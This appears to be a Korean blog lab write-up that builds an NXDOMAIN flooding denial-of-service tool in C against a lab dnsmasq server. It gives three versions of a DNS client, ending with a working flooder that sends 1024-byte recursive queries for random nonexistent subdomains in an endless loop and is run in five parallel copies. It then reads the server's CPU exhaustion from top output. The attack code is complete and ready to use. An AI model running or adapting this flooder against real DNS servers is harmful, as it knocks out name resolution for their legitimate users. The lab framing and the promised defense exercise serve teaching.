






# NXDOMAIN Flooding 공격 실습   

### NXDOMAIN Flooding  


<br>


### dns 질의 코드 작성    

<figure style="max-width: 800px; margin: 0;">
  <div style="display: flex; gap: 10px; align-items: flex-start;">
    
    
  </div>
  
  <figcaption style="font-size: 0.9rem; color: #666; margin-top: 10px;">
    출처: <a href="http://www.ktword.co.kr/test/view/view.php?no=2251" target="_blank" rel="noopener noreferrer" style="color: #0073e6; text-decoration: none;">정보통신기술용어해설</a>,
    DNS 메시지
  </figcaption>
</figure>


우선 공격 코드를 작성하기 전에 간단하게 dos.lab 에 대해 질의하는 코드를 먼저 작성해본 뒤, 존재하지 않는 하위 도메인을 질의하는 코드를 작성해보겠습니다.  


```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <time.h>

int main() {
    int msg = socket(AF_INET, SOCK_DGRAM, 0);
    struct sockaddr_in dest;
    dest.sin_family = AF_INET;
    dest.sin_port = htons(53);
    dest.sin_addr.s_addr = inet_addr("192.168.125.10"); // 실습용 dns 서버


    unsigned char packet[64] = {
        0x00, 0x00, // 임시 id (랜덤으로 매번 변경 예정): 0x0000
        0x01, 0x00, // Flags: RD = 1
        0x00, 0x01, // Questions 카운트: 1
        0x00, 0x00, // Answer 카운트: 0
        0x00, 0x00, // 네임서버 카운트: 0
        0x00, 0x00  // 부가정보 레코즈 카운터: 0
    };


    unsigned char query[] = {
        0x03, 'd','o','s',
        0x03, 'l','a','b', 
        0x00,
        0x00, 0x01, // Type: A (IPv4)
        0x00, 0x01  // Class: IN
    };

    memcpy(packet + 12, query, sizeof(query));

    srand(time(NULL));

    // id 값은 매번 랜덤으로 변경
    uint16_t dns_id = (uint16_t)(rand() & 0xFFFF);
    *(uint16_t *)packet = htons(dns_id);

    // 쿼리 전송
    sendto(msg, packet, 12 + sizeof(query), 0, (struct sockaddr*)&dest, sizeof(dest));
    printf("Query Sent - id: 0x%04X\n", dns_id);
    // 응답 확인
    unsigned char buffer[512];
    struct sockaddr_in from;
    socklen_t from_len = sizeof(from);

    int res_len = recvfrom(msg, buffer, sizeof(buffer), 0, (struct sockaddr*)&from, &from_len);

    if (res_len > 0) {
        // 응답 패킷의 id를 알기 위해 처음 2바이트를 추출
        uint16_t res_id = ntohs(*(uint16_t *)buffer);
        printf("Received id: 0x%04X\n", res_id);
        // 응답받은 ip 주소를 출력하기 위해 마지막 4바이트 추출
        if (res_len >= 4) {
            printf("IP Address: %d.%d.%d.%d\n",
                   buffer[res_len-4], buffer[res_len-3], 
                   buffer[res_len-2], buffer[res_len-1]);
        }
    } else {
        printf("No response.\n");
    }

    close(msg);

    return 0;
}
```
<br>

매 질의마다 다른 id를 전송할 수 있도록 `dns_id`를 랜덤으로 설정할 수 있도록 하였습니다.  

그리고 flag 중에 RD flag를 1로 켜두었는데 이는 Recursion Desired로 서버가 직접 존재하지 않는 도메인에 대해 알아보며 더 많은 자원을 소모시키기 위해서 켜둔 것입니다. 

질의 영역에서는 쿼리 name은 dos.lab에 해당하는 `3 d o s 3 l a b 0`으로 맞춰주었고 잘의 타입은 도메인 주소를 찾는 A를, 등급은 인터넷에 해당하는 IN(1)을 사용하였습니다.  


  

응답 패킷 헤더의 맨 앞 2바이트는 id 이므로 이것을 가져오고, 마지막 4바이트가 리소스 데이터인 ip 주소가 될 것이므로 맨 뒤 4바이트에서 ip 주소를 가져와 출력해줍니다.  

<br> 

    

이제 실행시켜주면 실행마다 다른 id를 가지는 질의가 완성되었습니다.  

<br>

### 공격 코드 작성   

이제 변형하여 공격코드를 작성해주겠습니다.  


```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <time.h>

int main() {
    int msg = socket(AF_INET, SOCK_DGRAM, 0);
    struct sockaddr_in dest;
    dest.sin_family = AF_INET;
    dest.sin_port = htons(53);
    dest.sin_addr.s_addr = inet_addr("192.168.125.10"); // 실습용 dns 서버


    unsigned char packet[64] = {
        0x00, 0x00, // 임시 id (랜덤으로 매번 변경 예정): 0x0000
        0x01, 0x00, // Flags: RD = 1
        0x00, 0x01, // Questions 카운트: 1
        0x00, 0x00, // Answer 카운트: 0
        0x00, 0x00, // 네임서버 카운트: 0
        0x00, 0x00  // 부가정보 레코즈 카운터: 0
    };


    unsigned char query[] = {
        0x03, 'd','o','s',
        0x03, 'l','a','b', 
        0x00,
        0x00, 0x01, // Type: A (IPv4)
        0x00, 0x01  // Class: IN
    };

    srand(time(NULL));

    while(1){
        // 0x04 , < 랜덤 4바이트 > 생성
        unsigned char buf[5];
        buf[0] = 0x04;
        for (int i = 1; i < 5; i++) {
            buf[i] = 'a' + (rand() % 26); 
        }
        
        memcpy(packet + 12, buf, 5);
        memcpy(packet + 17, query, sizeof(query));
        
        // id 값은 매번 랜덤으로 변경
        uint16_t dns_id = (uint16_t)(rand() & 0xFFFF);
        *(uint16_t *)packet = htons(dns_id);

        // 쿼리 전송
        sendto(msg, packet, 12 + sizeof(query), 0, (struct sockaddr*)&dest, sizeof(dest));
        printf("Query Sent - id: 0x%04X\n", dns_id);
        // 응답 확인
        unsigned char buffer[512];
        struct sockaddr_in from;
        socklen_t from_len = sizeof(from);

        int res_len = recvfrom(msg, buffer, sizeof(buffer), 0, (struct sockaddr*)&from, &from_len);

        if (res_len > 0) {
            // 응답 패킷의 id를 알기 위해 처음 2바이트를 추출
            uint16_t res_id = ntohs(*(uint16_t *)buffer);
            printf("Received id: 0x%04X\n", res_id);
            // 응답받은 ip 주소를 출력하기 위해 마지막 4바이트 추출
            if (res_len >= 4) {
                printf("IP Address: %d.%d.%d.%d\n",
                    buffer[res_len-4], buffer[res_len-3], 
                    buffer[res_len-2], buffer[res_len-1]);
            }
        } else {
            printf("No response.\n");
        }
    }

    close(msg);

    return 0;
}
```

기존 전송을 반복하게 하고 앞에 무작위 소문자 알파벳 4개를 붙여 임의의 주소를 만들어 보낼 수 있게 만들었습니다.  

<br>

  


```bash
tail -f /var/log/dnsmasq.log
```

이걸 보내보면 무수히 빠른 속도로 존재하지않는 임의의 도메인 주소를 찾는 것을 확인해볼 수 있습니다.   

<br>

### 공격 실행  

이제 공격코드를 실행해서 서비스 거부를 재현해보겠습니다.  
그전에 위 코드는 `recvfrom`으로 응답을 받는 코드가 포함되어있기 때문에 해당 부분을 지워주고 printf 부분도 지워줬습니다.   

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <time.h>

int main() {
    int msg = socket(AF_INET, SOCK_DGRAM, 0);
    struct sockaddr_in dest;
    dest.sin_family = AF_INET;
    dest.sin_port = htons(53);
    dest.sin_addr.s_addr = inet_addr("192.168.125.10");

    unsigned char packet[1024];
    memset(packet, 0, sizeof(packet));

    packet[2] = 0x01;
    packet[3] = 0x00;
    packet[5] = 0x01;

    unsigned char query[] = {
        0x03, 'd','o','s',
        0x03, 'l','a','b',
        0x00,
        0x00, 0x01,
        0x00, 0x01
    };

    srand(time(NULL));

    while(1){
        unsigned char buf[16];
        buf[0] = 0x0F;
        for (int i = 1; i < 16; i++) {
            buf[i] = 'a' + (rand() % 26);
        }

        memcpy(packet + 12, buf, 16);
        memcpy(packet + 28, query, sizeof(query));

        uint16_t dns_id = (uint16_t)(rand() & 0xFFFF);
        *(uint16_t *)packet = htons(dns_id);

        sendto(msg, packet, 1024, 0, (struct sockaddr*)&dest, sizeof(dest));
    }

    close(msg);
    return 0;
}
```  

랜덤 문자열의 길이도 늘려주고 패킷의 크기도 늘렸습니다.  
컴파일을 해준 뒤 병렬실행을 해주었습니다.  

```bash
seq 5 | xargs -I{} -P 5 ./dns_flood
```

<br>

### 실행 결과  


  

거의 시작과 동시에 dos.lab의 접속이 막혔습니다.  
top를 통해 alpine 서버의 상태를 정리해보면 아래와같습니다.  

```sh
CPU: 30% usr 15% sys 0% nic 0% idle 0% irq 45% sirq 

9326 dnsmasq ... 30%
9096 /sbin/syslogd ... 12%
...
```

- 30% usr 
    - dnsmasq와 같은 일반 어플리케이션이 CPU를 사용하는 비중입니다.  
    - 여기선 dnsmasq가 패킷을 해석하고 응답을 만들기 위해 사용한 비중이 큽니다 
- 15% sys
    - 커널의 자체 연산 비중입니다.  
    - syscall 처리, 메모리 할당, 프로세스 관리 등에 드는 비용입니다.  
    - 여기선 로그를 적기 위해 사용한 비중도 대량 들어갑니다. (`/sbin/syslogd ... 12%`)
- 45% sirq (softirq) ← 핵심
    - 네트워크 패킷 처리 부하입니다.  
    - 현재 CPU의 절반이나 사용하고 있으며 패킷을 검사하고 버퍼에 쌓는 작업만으로도 대부분의 자원을 사용하고 있습니다.  
- 0% idle
    - CPU가 쉴 틈없이 계속 돌아가고 있다는 의미입니다.  
    - 정상 사용자에 대해서 처리해줄 여유가 없습니다.  


<br>

**요약**

현재 Alpine 서버는 CPU Idle 0%로 자원이 완전히 고갈된 상태입니다.  

특히 softirq(45%) 수치가 굉장히 높은 것을 볼 수 있는데, 이는 공격 측에서 보낸 패킷이 커널 네트워크 스택에 엄청난 부하를 주고 있음을 뜻합니다.  
dnsmasq가 30%의 점유율을 보이고 있지만, 그보다 먼저 커널 수준에서 패킷 처리에 과부하가 걸려 정상적인 서비스 응답이 불가능한 자원 소진형 공격이 성공했음을 확인할 수 있습니다.  

다음 실습에서 이를 방어해보는 실습을 진행해보겠습니다.  

<br>


### Reference

- 정보통신기술용어해설 dns 구조 : http://www.ktword.co.kr/test/view/view.php?no=2251